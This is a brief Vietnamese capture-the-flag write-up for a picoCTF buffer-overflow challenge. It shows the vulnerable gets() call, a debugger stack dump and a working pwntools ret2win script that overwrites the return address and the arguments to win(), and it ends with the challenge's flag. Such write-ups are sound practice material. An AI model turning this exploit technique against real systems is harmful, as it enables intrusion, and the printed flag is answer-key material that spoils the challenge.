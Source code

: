 # tóm tắt

ta có lỗi bof ở hàm vuln()

```c
int vuln()
{
  char s[104]; // [esp+Ch] [ebp-6Ch] BYREF

  gets(s);
  return puts(s);
}
```

vậy ta sẽ ret2win, tuy nhiên để in được flag ta sẽ phải OW giá trị

```c
  if ( a1 == 0xCAFEF00D && a2 == 0xF00DF00D )
    return (char *)printf(s);
```

ta debug để xem địa chỉ a1 a2 ở đâu trong stack

```asm
cmp    DWORD PTR [ebp+0x8], 0xcafef00d
cmp    DWORD PTR [ebp+0xc], 0xf00df00d
```

do đó sau khi nhập vào địa chỉ hàm win ta sẽ + 4 byte a và sau đó ow a1, a2

```
0xffe92fb8│+0x0054: 0x20202020
0xffe92fbc│+0x0058: 0x20202020   ← $ebp
0xffe92fc0│+0x005c: 0x61616161
0xffe92fc4│+0x0060: 0xcafef00d
0xffe92fc8│+0x0064: 0xf00df00d
```

script
```python
from pwn import *

r = process("./vuln")
gdb.attach(r, gdbscript = '''
           b*win+118
           b*win+127
           c
           ''')
# r = remote("saturn.picoctf.net", 59769)
input()
exe = ELF("./vuln")
payload  = b"".ljust(112) + p32(exe.sym['win']) + b"aaaa" + p32(0xcafef00d) + p32(0xf00df00d)
r.recvline()
r.sendline(payload)
r.interactive()

#picoCTF{argum3nt5_4_d4yZ_b3fd8f66}
```